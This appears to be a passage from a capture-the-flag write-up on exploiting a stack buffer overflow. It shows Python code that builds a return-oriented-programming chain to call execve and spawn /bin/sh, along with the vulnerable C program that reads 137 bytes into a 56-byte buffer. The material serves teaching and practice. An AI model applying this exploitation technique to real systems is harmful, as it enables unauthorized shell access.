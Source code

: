 ```python
payload += formatter(params)
print('payload (len : {}):\n{}'.format(len(payload), payload))

input('[1] press any key to send the payload...')
sender(payload)

input('press any key to send /bin/sh...')
sender(b'/bin/sh\x00')


```

After the `read` the execution flow is redirected to the `main`. When the program executes again a similar exploit is performed again, this time calling an `execve` which is used to spawn a shell:

```python
payload = b''
payload += padding
payload += b'B'*8
params = [
    # execve
    pop_rdx_rsi['address'],
    zeros_addr,
    zeros_addr,
    pop_rdi['address'],
    binsh_addr,
    pop_rax['address'],
    0x3b,
    syscall['address']
]
payload += formatter(params)
print('payload (len : {}):\n{}'.format(len(payload), payload))

input('[2] press any key to send the payload...')
sender(payload)
```

Source code:

```c
#include <stdio.h>
#include <unistd.h>

void empty(char * buffer){
    for (int i = 0; i<72/4; i+=4)
        *((int *)buffer + i) = 0xc3f48948;
}

int main(int argc, char * argv[]){
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);

    int i;
    char buffer[56];
    printf("What shall we use\nTo fill the empty spaces\nWhere we used to pwn?\n");
    read(0, buffer, 137);
    empty(buffer);

    return 0;
```
